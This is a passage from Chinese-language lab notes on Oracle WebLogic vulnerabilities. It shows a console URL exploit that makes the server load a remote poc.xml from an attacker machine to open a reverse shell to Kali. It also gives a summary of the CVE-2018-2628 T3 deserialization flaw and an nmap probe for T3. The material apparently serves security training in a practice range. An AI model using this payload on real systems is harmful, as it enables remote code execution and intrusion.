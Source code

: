 
```
访问该网站，让其解析poc.xml内容，从而反弹shell到kali上。
http://192.168.15.50:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://192.168.15.128:8888/poc.xml")
```

![image-20241122160904644](中间件漏洞/image-20241122160904644.png)	

### CVE-2018-2628 T3协议反序列化漏洞

```
1、Weblogic开放控制台的7001端口，默认会开启T3协议服务
2、Weblogic的T3协议实现了RMI（远程方法调用），在WebLogic Server 和其他 Java 程序间传输数据
3、T3协议的缺陷触发了Weblogic Server WLS CoreComponents中存在的反序列化漏洞
4、攻击者可以发送构造的恶意T3协议数据，服务器反序列化以后执行恶意代码，获取到目标服务器权限

影响版本：
10.3.6.0
12.1.3.0
12.2.1.2
12.2.1.3
```

```
启动靶场。
```

![image-20241122163952418](中间件漏洞/image-20241122163952418.png)	

```
首先检测靶场端口是否开放，以及是否启用了T3协议。
nmap -n -v -p 7001,7002 192.168.15.50 --script=weblogic-t3-info
```
